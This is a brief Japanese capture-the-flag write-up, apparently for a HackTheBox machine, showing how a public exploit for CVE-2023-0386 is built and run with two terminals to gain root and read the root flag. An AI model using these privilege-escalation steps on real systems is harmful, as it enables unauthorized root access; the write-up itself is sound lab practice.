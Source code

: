 ```shell
admin@2million:~/CVE-2023-0386-main$ uname -r
5.15.70-051570-generic
```

ホームディレクトリに`CVE-2023-0386-main`というディレクトリが存在しているという誘導があるので、実際にこれが使えそうだという事がわかる。

README通り`make all`して、ssh接続をもう一つ増やし最初のターミナルで

```shell
./fuse ./ovlcap/lower ./gc
```

二つ目のターミナルで

```shell
./exp
```

とすると、うまくいった。

あとは

`sudo ls /root`
`sudo cat /root/root.txt`
